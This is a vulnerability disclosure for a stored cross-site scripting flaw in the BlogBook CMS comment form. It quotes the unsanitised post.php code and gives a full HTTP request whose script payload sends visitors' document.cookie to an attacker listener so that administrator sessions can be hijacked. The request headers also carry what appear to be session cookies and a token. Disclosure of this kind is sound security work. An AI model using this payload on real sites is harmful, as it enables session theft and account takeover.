


# BlogBook post.php Stored Cross-Site Scripting (XSS) in Comment Functionality Leading to Admin and User Account Takeover

**Exploit Title: BlogBook post.php Stored Cross-Site Scripting (XSS) in Comment Functionality Leading to Admin and User Account Takeover**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A stored Cross-Site Scripting (XSS) vulnerability exists in the comment functionality of BlogBook. The application fails to adequately sanitize user-supplied input when new comments are submitted. As a result, an attacker can inject malicious JavaScript code into a comment. This malicious script is then stored in the application's database and executed in the browser of any user, including administrators, who views the page containing the compromised comment.

This vulnerability was successfully exploited to steal session cookies (e.g., PHPSESSID) from users viewing the malicious comment, including an administrator account. With the stolen administrator session cookie, an attacker can hijack the administrator's session and gain full administrative control over the application. This allows for unauthorized data access, modification, user impersonation, and potentially further system compromise.

## Vulnerability Point

`blogbook-main/post.php:159`

## Vulnerable Parameter

`comment_author`,`comment_email`,`comment_content`

## Vulnerable Code

```php
                <?php
                if (isset($_POST['create_comment'])) {
                    $link_post_id = $_GET['p_id'];

                    $comment_author =  $_POST['comment_author'];
                    $comment_email =  $_POST['comment_email'];
                    $comment_content =  $_POST['comment_content'];
		    $comment_content_wo_quote = mysqli_real_escape_string($connection, $comment_content);


                    if (!empty($comment_author) && !empty($comment_email) && !empty($comment_content_wo_quote)) {

                        $query = "INSERT INTO comments (comment_post_id,comment_author,comment_email,comment_content,comment_status,comment_date) ";
                        $query .= "VALUES ($link_post_id,'{$comment_author}','{$comment_email}','{$comment_content_wo_quote}','unapproved',now())";

                        $create_comment_query = mysqli_query($connection, $query);
                        if (!$create_comment_query) {
                            die('qwery failed' . mysqli_error($connection));
                        }

                        $query = "UPDATE posts SET post_comment_count= post_comment_count + 1 WHERE post_id=$link_post_id";
                        $update_comment_count = mysqli_query($connection, $query);
                    } 
                }
```
## Payload

```
POST /post.php?p_id=51 HTTP/1.1
Host: localhost
Content-Length: 209
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="136", "Microsoft Edge";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/post.php?p_id=51
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: ui_session=2986ad8c0a5b3df4d7028d5f3c06e936c683fed5f838058c51a8f44198509f744f5d26e258cbe1fe8da7b02463d66eee2b6375d0aa1cdd1416e430c3e630ff9e8; Scipio.Visitor=10100; token=58UvisDHUf0Z5YYI; PHPSESSID=nimn99lc409p4m7i0kgpj2qtk5
Connection: close

comment_author=dafs&comment_email=asfd&comment_content=<script>
++var+img+%3d+new+Image()%3b
++var+cookieData+%3d+document.cookie%3b
++img.src+%3d+"http%3a//localhost%3a8000/%3fc%3d"+%2b+cookieData%3b
</script>&create_comment=1
```




